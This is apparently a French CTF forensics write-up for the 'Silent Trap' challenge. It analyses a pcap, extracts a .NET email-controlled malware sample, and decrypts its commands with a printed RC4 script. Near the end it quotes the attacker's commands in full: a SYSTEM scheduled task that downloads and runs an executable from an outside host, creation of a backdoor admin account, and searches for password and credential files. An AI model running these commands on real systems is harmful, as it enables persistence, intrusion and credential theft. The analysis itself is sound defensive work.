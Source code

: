 # Silent Trap
### A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers. With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

Le challenge commence avec un fichier **pcap**, en l'éxaminant rapidement, c'est un échange de mail.

### Flag 1 : What is the subject of the first email that the victim opened and replied to ?

Le sujet de l'email peut être identifié sur le HTTP Stream 4 :   

![wireshark1](https://github.com/user-attachments/assets/4912275e-7eec-40b0-a9f0-e22b95711e61)

### Flag 2 : Question 2: On what date and time was the suspicious email sent ?

En continuant de chercher dans les HTTP Stream, on tombe là dessus sur le 8 :   

![wiresahrk2](https://github.com/user-attachments/assets/58814647-dba8-4678-ab40-14953ef00c81)
On y voit la date du mail, et l'envoi du fichier `Eldoria_Balance_Issue_Report.zip`.

### Flag 3 : What is the MD5 hash of the malware file ?

On repère alors le fameux ZIP envoyé : 

![wireshark3](https://github.com/user-attachments/assets/4aa0c099-ed5c-44cb-a8ef-7be54c912184)

On exporte alors ce fichier sur Wireshark, mais l'archive est protégé par un mot de passe (merci ):   

![zip mdp](https://github.com/user-attachments/assets/6042393e-d16d-499b-ac1f-21bc450eaa27)

On continue alors de fouiller un peu les mails, et on trouve l'échange de mails avec le mot de passe :   

![wireshark5](https://github.com/user-attachments/assets/6cd57513-f3cb-4efd-885f-eea85ca43dd5)

On peut donc avoir accès à l'archive zip et en extraire `Eldoria_Balance_Issue_Report.pdf.exe` après l'avoir clean-up avec :
```bash
dd if=Eldoria.zip of=clean2.zip bs=1 skip=1259
 ```
Puis on peut récupérer son hash md5 :   
 
![extraire](https://github.com/user-attachments/assets/75a48aab-0a4a-447f-8207-8f3363ba4ca4)
![md5](https://github.com/user-attachments/assets/ea3af082-033e-45f6-8b8b-b4d998318001)

### Flag 4 :  What credentials were used to log into the attacker’s mailbox ?

Donc maintenant, nous avons accès au malware qui est un `.NET executable`. On le désassemble grâce à **dotPeek**. 

Dans la premère fonction visible, on peut directement y trouver les identifiants, aussi visibles dans les trames wireshark.  

![creds](https://github.com/user-attachments/assets/dfee5cd9-c035-4a07-a0bb-955f2eec7db1)

### Flag 5 :  What is the name of the task scheduled by the attacker ?

Maintenant il nous faut comprendre comment l'encryption marche, pour pouvori décrypter le reste des trames dans la capture Wireshark. Ici on peut comprendre un peu plus ce qu'il ce passe :   

![fonctionnement file](https://github.com/user-attachments/assets/8da47bde-ce7e-4e6c-a684-5a7a6074b9cd)

Le malware essaye de se connecter à un serveur mail, pour ensuite y éxécuter des commandes CMD encodés en XOR et base64, probablement pour en extraire des fichiers à ce que montre les trames Wireshark.
En fouillant encore un peu, on trouve alors le fonctionnement de l'encryption, et on trouve la clé XOR, qui elle même est encrypté avec RC4.

Au passage, merci à @Kaddate pour m'aider à comprendre parfaitement tout ce qu'il ce passait dans ce programme :D

 ![xor key](https://github.com/user-attachments/assets/44b4dc62-28bc-4990-b582-8b9678c99c4b)
 ![exor](https://github.com/user-attachments/assets/0615f2a4-9ca1-4bc6-bc6f-7cd46b8ce7bc)

Maintenant qu'on à toutes ces informations, on peut décrypter les commandes CMD que l'attaquant éxécute sur le serveur en extrayant toutes les trams IMF après un FETCH de l'attaquant :   

![ttt](https://github.com/user-attachments/assets/76911b01-abf9-4dfd-bf26-fc4e65f835b3)

Puis, avec ce code : 
```python
import base64

def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])

    return bytes(out)

b64_data = """<data>"""
key = bytes([<xor_key>]) 

data = base64.b64decode(b64_data)
decrypted = rc4(key, data)

print(decrypted.decode(errors="ignore"))
```
(Merci beaucoup à @n0rozapy pour l'aide sur ce script)

On peut désormais décrypter toutes les commandes que l'attaquant envoi, on obtient alors : 
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn

schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

net user devsupport1 P@ssw0rd /add
net localgroup Administrators devsupport1 /add
reg query HKLM /f "password" /t REG_SZ /s
dir C:\ /s /b | findstr "password"

more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
more C:\backups\credentials.txt
whoami /priv
tasklist /v
```
Le nom de la tâche éxéctuée est **Synchronization**.

### Flag What is the API key leaked from the highly valuable file discovered by the attacker ?
On voit ici que l'attaquant fouille le fichier `credentials.txt`, on voit clairement sur Wireshark la réponse du serveur, donc le fichier en question :   

![api key](https://github.com/user-attachments/assets/88b839db-e126-4565-a11b-261f94ca1e84)

On exporte tout ça, puis on le passe dans le même script python que pour les commandes CMD. Ce qui nous donne :   

![api key finale](https://github.com/user-attachments/assets/47c51d14-206e-45da-a107-79f1f823d73b)

Et voilà, 6 flags sur 6. 
